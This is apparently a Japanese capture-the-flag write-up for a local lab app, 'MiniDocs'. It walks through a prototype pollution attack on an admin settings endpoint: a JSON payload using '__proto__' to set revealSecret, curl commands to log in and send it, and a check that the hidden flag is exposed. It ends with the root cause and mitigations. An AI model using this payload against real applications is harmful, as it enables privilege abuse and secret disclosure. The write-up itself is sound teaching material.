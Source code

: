# MiniDocs — Prototype Pollution

## 解法

### 1) `admin`から管理者画面へ
- **前提**：管理者でログイン済み（IDOR で入手したパスワードを使用）。
- **URL欄**：`http://127.0.0.1:8000/admin`
- 管理画面中部 **「設定変更」** に `patch (JSON)` テキストエリアと **Apply** ボタンがある。

### 2) フォーム/リクエストの JSON 形式
- サーバは本文を **JSON / URLエンコード両対応**で受理し、`json` フィールドをパースして `patch` として扱う。
- 受理される**ルートキー**は `limits` と `featureFlags` のみ（allow-list）。
- **正攻法の拒否**：`{"featureFlags":{"revealSecret":true}}` のように直接 `revealSecret` を指定しても、サーバ側で削除される（“システム専用フラグ”）。

### 3) 送信ペイロード
```json
{"featureFlags":{"__proto__":{"revealSecret":true}}}
```
- **狙い**：脆弱な `deepMerge` が **`__proto__` をそのまま潜る**ため、`Object.prototype.revealSecret = true` が汚染される。 

### 4) 送信後の画面変化と `<FLAG_PP>` の確認箇所
1. 管理画面下部 **「現在の設定」** の内容に注目：  
   - `secretPreview` が **`"(hidden)" → "<FLAG_PP>"`** へ変化している。  
   - ここに `<FLAG_PP>` が可視化される。

### つまずきポイント / 代替ルート
- **直接指定は無効**：`{"featureFlags":{"revealSecret":true}}` は受理されても**削除**され効果なし。`__proto__` 経由のみ成功。

---

## 付録：curl 参考（数行）
> 先に **admin** でログインして Cookie を取得しておくこと。フラグの実文字列は表示しない。

```bash
# 1) admin でログイン
curl -s -c c.txt -d 'user=admin&pass=<hidden>' http://127.0.0.1:8000/login > /dev/null

# 2) __proto__ 汚染を JSON で適用（/admin/feature-flags）
curl -s -b c.txt -H 'Content-Type: application/json'   -d '{"featureFlags":{"__proto__":{"revealSecret":true}}}'   http://127.0.0.1:8000/admin/feature-flags > /dev/null

# 3) Diagnostics で secretPreview の露出を確認
curl -s -b c.txt http://127.0.0.1:8000/admin | grep -A2 '"secretPreview"'   # => "<FLAG_PP>"
```

---

## 根本原因と対策（Prototype Pollution）
- **原因**：再帰マージ `deepMerge` が **`__proto__`/`prototype`/`constructor`** を**ブロックせず**に潜るため、`Object.prototype` が汚染される。UI 側も `ownProperty` 判定をせず参照。  
- **対策（最小）**：
  - ① マージ前に **危険キー拒否**（`['__proto__','prototype','constructor']` を除去）。  
  - ② ライブラリ利用時は **proto 汚染無効化オプション**を有効化。  
  - ③ 参照側も **`Object.hasOwn` / `hasOwnProperty`** で自前プロパティのみ採用する二重防御。
